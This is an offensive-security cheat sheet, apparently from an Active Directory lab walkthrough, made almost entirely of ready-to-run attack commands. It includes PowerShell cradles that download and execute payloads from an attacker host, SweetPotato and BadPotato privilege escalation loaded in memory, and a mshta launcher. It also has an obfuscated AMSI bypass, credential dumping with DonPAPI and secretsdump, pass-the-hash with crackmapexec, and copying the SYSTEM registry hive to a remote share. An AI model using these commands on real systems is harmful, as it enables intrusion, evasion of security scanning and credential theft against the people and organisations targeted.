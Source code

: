 If you don’t want to be bored to compile .net app or modify them with public class and method and no exit.environment you can also use PowerSharpPack and get everything done for you (thanks again to @ShitSecure).
```
iex(new-object net.webclient).downloadstring('http://192.168.56.1:8080/PowerSharpPack/PowerSharpPack.ps1')
PowerSharpPack -winPEAS
```

### Exploit SeImpersonatePrivilege
```
echo "@echo off" > runme.bat
echo "start /b C:\Windows\system32\mshta.exe http://10.10.14.194:8000/hello.hta" >> runme.bat
echo "exit /b" >> runme.bat

mkdir c:\temp
cd c:\temp
(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:8080/runme.bat','C:\Windows\Temp\runme.bat')
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/SweetPotato.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[SweetPotato.Program]::Main(@('-p=C:\Windows\Temp\runme.bat'));[Console]::SetOut($out);$sWriter.ToString()

or

	

$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
iex(new-object system.net.webclient).downloadstring('http://192.168.56.1:8080/amsi_rmouse.txt')
iex(new-object net.webclient).downloadstring('http://192.168.56.1:8080/PowerSharpPack/PowerSharpBinaries/Invoke-BadPotato.ps1')
Invoke-BadPotato -Command "c:\temp\runme.bat"

```

# Lateral movement
## DonPAPI
```
DonPAPI.py domain/user:passw0rd@target
DonPAPI.py --hashes <LM>:<NT> domain/user@target
DonPAPI.py -k domain/user@target
DonPAPI.py -local_auth user@target
```
## secretsdump & crackmapexec
```
python3 secretsdump.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 

#Password reuse and PTH attack
crackmapexec smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4' --local-auth
crackmapexec smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4'
```
##  Cached domain logon information
```
reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SYSTEM' -o '\\192.168.56.1\share'
```
